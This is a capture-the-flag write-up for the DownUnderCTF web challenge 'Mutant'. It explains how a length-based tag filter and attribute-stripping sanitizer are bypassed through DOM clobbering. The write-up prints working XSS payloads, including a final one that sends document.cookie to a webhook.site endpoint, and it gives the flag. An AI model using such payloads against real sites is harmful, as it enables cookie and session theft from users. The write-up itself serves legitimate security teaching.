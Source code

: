 # DownUnderCTF/web - Mutant  
**Author** - ssparow

**Description**: Just an XSS. What more is there to it?

---

For the final payload click [here](#final-payload).

---

## 🛠️ Setup

We're given a straightforward website: enter something, and it gets displayed back to you. Simple enough, but let's see what tricks are hiding under the hood.

<img src="images/web.png" alt="XSS Website" width="300"/>


## 🔍 Code Inspection

Looking at `main.js`, we can see how the input is being sanitized:

<img src="images/main.png" alt="XSS Website" width="400"/>

Here's what the code does:
- Traverses all nodes in the input
- Strips all attributes (so no sneaky event handlers)
- Removes elements with tag names of length 6 or 8  
  - (Filtering by tag length is an interesting choice, but not exactly bulletproof)
- Appends the sanitized input to the HTML

The key part of the code is:
```
  if (n.nodeName !== "#document-fragment" && (n.nodeName.length === 6 || n.nodeName.length === 8)) {
    n.parentNode.removeChild(n);
    continue;
  }
```
So, if your tag name is 6 or 8 characters long, it's getting removed. Otherwise, it stays.

---

## 🚀 Finding the Payload

- `<script>` and `<iframe>` are blocked by the filter.  
- `<img>` and `<svg>` are the next that come to mind, but they wouldn't work without attributes.  
- 🤔 Time to get creative and look for tags that slip through
- The vulnerability in the script can be exploited using a **DOM Clobbering technique**.
- The loop that is removing the attributes
```
while (n.attributes.length > 0) {
  n.removeAttribute(n.attributes[0].name);
}
```
We can bypass this with
```
<form onmouseover="alert(1)"><input name="attributes"></form>
```
- This loop relies on checking the `length` property of an element's `attributes` object (`n.attributes`).
- By including `<input name="attributes">`inside the `<form>` element, you "clobber" (overwrite) the form's default `.attributes` property. Instead of pointing to the browser's internal list of attributes (a NamedNodeMap), `form.attributes` now points to the `<input>` element itself. This is called **DOM Clobbering**.
- The `<input>`element does not have a `.length` property. Therefore, when the sanitizer checks the condition `n.attributes.length > 0`, it is evaluating `undefined > 0`, which is `false`.
- The while loop is never entered, and the removeAttribute code is never executed for the <form> tag. The malicious onmouseover="alert(1)" attribute remains intact. When the final, supposedly "sanitized" HTML is rendered, moving the mouse over the form will trigger the XSS payload.
- But we still have a problem, when the bot visits the site, the form element needs a onmouseover to trigger the function and the `<form>` element doesn't have the `onload` property
- Upon some googling and gpting, I found a way to invoke the function on the bot just loading the page.
  - At first I tried `onfocus` with `autofocus` attributes in the form, but they didn't work as the autofocus was converted to `autofocus=""` in the result.
  - Next, I tried `<style>` attribute making the form an animation and using the `onanimationed` attribute in the form element, executing the function required and it WORKED!

```
<style>@keyframes x{}</style><form style="animation-name:x" onanimationend="alert(1)"><input id="attributes"></form>
```

<img src="images/solve.png" alt="XSS Website" width="500"/>

## Final Payload

I used https://webhook.site to create an endpoint the bot would send a request to and created the final payload.
```
<style>@keyframes x{}</style><form style="animation-name:x" onanimationend="fetch('https://webhook.site/<my-webhook-id>' + document.cookie)"><input id="attributes"></form>
```

## 🏁 Flag

The request to this site would contain the flag
```
DUCTF{if_y0u_d1dnt_us3_mutation_x5S_th3n_it_w45_un1nt3nded_435743723}
```

This isn't the intended solution!
